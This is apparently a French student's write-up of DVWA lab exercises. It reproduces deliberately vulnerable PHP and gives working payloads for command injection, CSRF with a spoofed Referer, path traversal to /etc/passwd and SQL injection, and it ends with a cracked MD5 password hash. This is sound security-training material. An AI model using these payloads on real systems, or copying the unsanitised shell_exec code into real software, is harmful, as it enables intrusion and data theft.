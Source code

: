 # Command Execution
## Low

```php
 <?php

if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }
    
}
?> 
```
Le code attend une entrée stockée dans la variable `$target` puis selon l'OS détecté, lance la commande shell `ping $target`.
dans une utilisation normale un utilisateur va donc taper une adresse IP.
On peut renseigner `127.0.0.1 && <commande à lancer>` et la commande va se lancer.
par exemple: `127.0.0.1 && ls /` donne le résultat:
```bash
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.022 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.012 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.015 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.012/0.016/0.022/0.005 ms
backups
cache
lib
local
lock
log
mail
opt
run
spool
tmp
```

## Medium

```php
 <?php

if( iss
et( $_POST[ 'submit'] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Remove any of the charactars in the array (blacklist).
    $substitutions = array(
        '&&' => '',
        ';' => '',
    );

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }
}

?> 
```

Un test a été ajouté au code, s'il détecte `&&` ou `;` il les retire.
On peut tout de même utiliser `||`,`|` ou `&`.
Par exemple 127.0.0.1 | ls /
```bash
bin
boot
cdrom
dev
etc
home
initrd.img
lib
lost+found
media
mnt
opt
proc
rofs
root
sbin
selinux
srv
sys
tmp
usr
var
vmlinuz
```

## High
```php
<?php

if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST["ip"];
    
    $target = stripslashes( $target );
    
    
    // Split the IP into 4 octects
    $octet = explode(".", $target);
    
    // Check IF each octet is an integer
    if ((is_numeric($octet[0])) && (is_numeric($octet[1])) && (is_numeric($octet[2])) && (is_numeric($octet[3])) && (sizeof($octet) == 4)  ) {
    
    // If all 4 octets are int's put the IP back together.
    $target = $octet[0].'.'.$octet[1].'.'.$octet[2].'.'.$octet[3];
    
    
        // Determine OS and execute the ping command.
        if (stristr(php_uname('s'), 'Windows NT')) { 
    
            $cmd = shell_exec( 'ping  ' . $target );
            echo '<pre>'.$cmd.'</pre>';
        
        } else { 
    
            $cmd = shell_exec( 'ping  -c 3 ' . $target );
            echo '<pre>'.$cmd.'</pre>';
        
        }
    
    }
    
    else {
        echo '<pre>ERROR: You have entered an invalid IP</pre>';
    }
    
    
}

?> 
```

# CSRF
## Low
Le principe est que l'action lancée par l'URL s'exécute selon les droits de l'utilisateur. Donc si je vais sur l'URL http://192.168.99.110/vulnerabilities/csrf/?password_new=ADMIN&password_conf=ADMIN&Change=Change# en tant qu'utilisateur maxime, le mot de passe de maxime sera update par ADMIN.
Le but est donc de faire lancer l'url http://192.168.99.110/vulnerabilities/csrf/?password_new=ADMIN&password_conf=ADMIN&Change=Change# par l'utilisateur qui nous interesse.

## Medium
Le paramètre HTTP_REFERER est testé pour savoir si la référence est 127.0.0.1.
Juste lancer l'URL ne suffit plus il faut modifier le HEADER et notamment le paramètre referer par 127.0.0.1.
Nous l'avons fait via l'extension de navigateur Tamper Data qui permet, à l'exécution de l'url de modifier le Header.

# File Inclusion
## Low
L'attaque de type file inclusion permet d'indiquer au serveur un fichier à afficher.
En prenant en compte le résultat de la commande pwd `| ls /opt/lampp/htdocs/vulnerabilities/fi` on peut ouvrir le fichier `etc/passwd` en indiquant `?page=../../../../../etc/passwd` on peut aussi mettre l'adresse d'une page d'un site

## Medium
Les urls commençant par `http://` ou `https://` sont automatiquement modifiées en les enlevant.
On peut tout de même ouvrir des pages du serveur ou ftp et autre

# SQL Injection
`1' or 1=1; -- `
le 1 corespond à l'id de l'user, le `'` correspond à la fin des cotes pour l'id de l'user, `or 1=1;` correspond à la fin de la requête. ` -- ` indique au moteur que tout ce qui suit est un commentaire.

Pour récupérer le nom de la machine ainsi que la version de mysql:
`127' union SELECT @@hostname, @@version`
Pour récupérer le current_user ainsi que l'user:
`127' union SELECT current_user(), user()`
avoir la liste de toutes les bases:
`127' union SELECT schema_name, schema_name from information_schema.schemata; -- `
...

5f4dcc3b5aa765d61d8327deb882cf99
password